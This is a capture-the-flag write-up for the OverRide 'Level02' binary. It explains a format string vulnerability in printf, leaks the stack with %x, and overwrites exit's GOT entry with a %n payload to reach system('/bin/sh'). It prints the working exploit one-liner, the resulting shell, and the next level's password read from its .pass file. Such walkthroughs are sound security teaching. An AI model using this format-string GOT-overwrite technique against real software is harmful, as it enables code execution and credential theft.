 # Level02

In the Level02 challenge, we encounter a binary program that requires a username and password for access. Let's examine the initial interaction:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: root
*****************************************
test does not have access!
```

Upon further investigation using gdb, we find that the program attempts to read the contents of a file located at /home/users/level03/.pass. The retrieved password is then compared with the one we provide.

If the passwords don't match, we move to the following function:

```bash
   0x0000000000400a96 <+642>:   lea    rax,[rbp-0x70]
   0x0000000000400a9a <+646>:   mov    rdi,rax
   0x0000000000400a9d <+649>:   mov    eax,0x0
   0x0000000000400aa2 <+654>:   call   0x4006c0 <printf@plt>
   0x0000000000400aa7 <+659>:   mov    edi,0x400d3a
   0x0000000000400aac <+664>:   call   0x400680 <puts@plt>
   0x0000000000400ab1 <+669>:   mov    edi,0x1
   0x0000000000400ab6 <+674>:   call   0x400710 <exit@plt>
```

An important observation is that the program uses the printf function without proper formatting. This situation indicates the presence of a format string vulnerability, which can be exploited to leak sensitive information.

Now, let's examine how we can exploit this vulnerability:

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %x %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: AAAA
*****************************************
ffffe500 0 41 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 41414141 0 0 0 0 0  does not have access!
```

As we can see, by providing a format string as the username input, we are able to leak the contents of the stack.

Additionally, by examining the program's code, we find a section where it calls the system function, which we can exploit to execute shell commands:

```bash
   00000000400a71 <+605>:   lea    rdx,[rbp-0x70]
   0x0000000000400a75 <+609>:   mov    rsi,rdx
   0x0000000000400a78 <+612>:   mov    rdi,rax
   0x0000000000400a7b <+615>:   mov    eax,0x0
   0x0000000000400a80 <+620>:   call   0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:   mov    edi,0x400d32
   0x0000000000400a8a <+630>:   call   0x4006b0 <system@plt>
   0x0000000000400a8f <+635>:   mov    eax,0x0
```

Let's proceed with our exploit for this binary. Our plan involves redirecting the Global Offset Table (GOT) address of the exit function to the address 0x400a71, which prepares the argument /bin/sh for the system function. By doing so, we can leverage this manipulation to execute arbitrary shell commands.

```bash
   0x0000000000400a85 <+625>:   mov    edi,0x400d32 #/bin/sh
   0x0000000000400a8a <+630>:   call   0x4006b0 <system@plt>
```

let prepare our payload:

the address of exit function in GOT is 0x601228
the instruction at ` 0x400a85 <+625>:   mov    edi,0x400d32` let convert 0x400a85 to decimal is 4196997
as we see in above example ower offset is the 8th argument

```python
python -c 'print "%4196997p"+ "%8$n"+"\n"+ "\x60\x12\x28"[::-1]'
```

```bash
level02@OverRide:~$ python -c 'print "%4196997p"+ "%8$n"+"\n"+ "\x60\x12\x28"[::-1]' >exploit
level02@OverRide:~$ (cat exploit; cat) | ./level02



           0x7fffffffe500 does not have access!
whoami
level03
```

so we can get the flag now

```bash
cd ../level03
cat .pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
